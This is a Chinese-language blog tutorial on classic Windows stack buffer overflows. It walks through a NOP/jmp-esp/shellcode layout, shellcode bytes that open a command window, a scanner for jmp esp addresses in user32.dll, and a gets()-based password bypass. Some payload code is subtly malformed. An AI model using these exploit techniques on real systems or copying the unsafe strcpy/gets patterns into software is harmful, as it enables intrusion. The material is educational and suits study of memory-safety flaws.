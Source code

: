 ```yaml
---
title: 再谈栈溢出
date: 2019-08-05 09:29:18
tags: 二进制
typora-root-url: ..
---
```


### <center>再谈栈溢出</center>

---

​	上回书说到，向缓冲区内填充数据，如果数据很长，超过缓冲区本身容量，数据会溢出空间，覆盖合法数据。但是，可以精心设计溢出数据，造成攻击。

---

#### 1. 本地缓冲区溢出简单利用

已有条件：

 	1. 知道有问题程序返回点的精准地址，即可以把他覆盖成任意地址。
 	2. 有了shellcode。
 	3. 把有问题程序返回点地址覆盖成shellcode地址，即可成功利用缓冲区溢出。



现在的目的：shellcode的地址是什么？即把返回点地址覆盖成什么？

​	在windows下利用系统核心dll里的指令完成跳转。

​	**用系统核心dll中的jmp esp 地址来覆盖返回地址，然后把shellcode紧跟其后。**

​	利用格式：NNNNNNNNRSSSSSSSS，N=Nop，R=jmp esp，S=shellcode。

覆盖之后堆栈图示：

|       ...        |
| :--------------: |
|       Nop        |
|       Nop        |
|       Nop        |
| Jmp esp（原eip） |
|        S0        |
|        S1        |
|        S2        |
|        s3        |
|       ...        |

函数执行完成之后，esp指向原eip地址，而eip指向Ret指令

（eip指向下一条指令地址，Ret指令相当于pop eip）。

当eip被覆盖为 jmp esp之后，ret 相当于指向 jmp esp的地址。然后esp下移，指向S0，然后开始执行Shellcode。

```
1. EIP 指令指针指向下一条要执行的命令，一般会自动加 2. ESP 堆栈顶指针指向堆栈的顶部。在PUSH 时，ESP 往上走，减 1；在 POP 时，ESP 往下走，加 1。 
```

---

#### 2. 栈溢出的简单构筑

以一简单c为例：

```c
#include<cstdio>
#include<cstring>

int  main() {
	char name[] = "tfire";
	char output[8];
	strcpy(output, name);
	for (int i = 0; i < 8; i++) {
		printf("\\0x%x", output[i]);
	}
	return 0;
}
```

执行结果：

```
\0x74\0x66\0x69\0x72\0x65\0x0\0xfffffffe\0xfffffffe
```

给出转换表：

![](/assets/8.6.png)



给出shellcode机器码（功能为打开dos窗口）：

```
char shellcode[]=
{
0x8B,0xE5, 0x55,0x8B,0xEC,0x83,0xEC,0x0C,0xB8, 0x63,0x6F,0x6D,0x6D,0x6D,0x6D,0x6F,0x63,0x89, 0x45,0xF4,0xB8,0x61,0x6E,0x64,0x2E,0x89,0x45, 0xF8,0xB8,0x63,0x6F,0x6D,0x22,0x89,0x45,0xFC, 0x33,0xD2, 0x88,0x55,0xFF, 0x8D,0x45,0xF4,  0x50, 0xB8,0x24,0x98,0x01,0x78, 0xFF,0xD0
};
```

将name[]进行构造：

| name[8]  | ebp  |    RET     | ShellCode |
| :------: | :--: | :--------: | :-------: |
| AAAAAAAA | AAAA | 0x76388b13 | SSSSSSSS  |

*关于这个jmp esp的地址，会因为windows版本不同而不同。*

在网上找了一个加载动态库esp地址的代码（这个还没看到...）

```c
#include <windows.h>
#include <stdio.h>
int main(int, char**, char**)
{
	BYTE* pbyte;
	int nPos = 0, nAddr = 0;
	HINSTANCE hHinst = NULL;
	bool bTips = true;
	hHinst = LoadLibrary("user32.dll");
	if (!hHinst) return 0;
	pbyte = (BYTE*)hHinst;
	while (bTips)
	{
		if (pbyte[nPos] == 0xff && pbyte[nPos + 1] == 0xe4)
		{
			nAddr = (int)pbyte + nPos;
			printf("address is 0x%x\n", nAddr);
			bTips = false;
		}
		else
			nPos++;
	}
	if (hHinst != NULL) FreeLibrary(hHinst);
	return 1;
}
```

输出地址：

```
0x76388b13
```

将代码合并整理：

```c
char name[]=
{
 "\x41\x41\x41\x41\x41\x41\x41\x41"//name=AAAA
 "\x41\x41\x41\x41"   //ebp=AAAA   
 "\x13\x8b\x38\x76"   //覆盖成jmp esp地址
 "0x8B,0xE5,    0x55,0x8B,0xEC,0x83,0xEC,0x0C,0xB8, 0x63,0x6F,0x6D,0x6D,0x6D,0x6D,0x6F,0x63,0x89, 0x45,0xF4,0xB8,0x61,0x6E,0x64,0x2E,0x89,0x45, 0xF8,0xB8,0x63,0x6F,0x6D,0x22,0x89,0x45,0xFC, 0x33,0xD2, 0x88,0x55,0xFF, 0x8D,0x45,0xF4,  0x50, 0xB8,0x24,0x98,0x01,0x78, 0xFF,0xD0"
     //此处为shellcode地址，功能为打开dos窗口
}
```

接下来执行程序，明明是字符串的复制，却会打开dos窗口，至此，缓冲区溢出构建完成。

---

#### 3. 溢出实例

看一个简单代码：

```c
#include <stdio.h>
#include <string.h>
int main(int argc, const char * argv[]) {

    char passsword[8] = "secret", input[8];
    while (1) {
        printf("Enter your password:");
        gets(input);
        if (strcmp(input, passsword) == 0) {
            printf("Welcome!\n");
            break;
        }else {
            printf("Sorry,your password is wrong.\n");
        }
    }
    return 0;
}
```

看看结果吧

![](/assets/8.5.png)

What？？

输入ok居然对了？？

这就是缓冲区溢出造成的，具体已经解释过了，着迷人的魅力啊~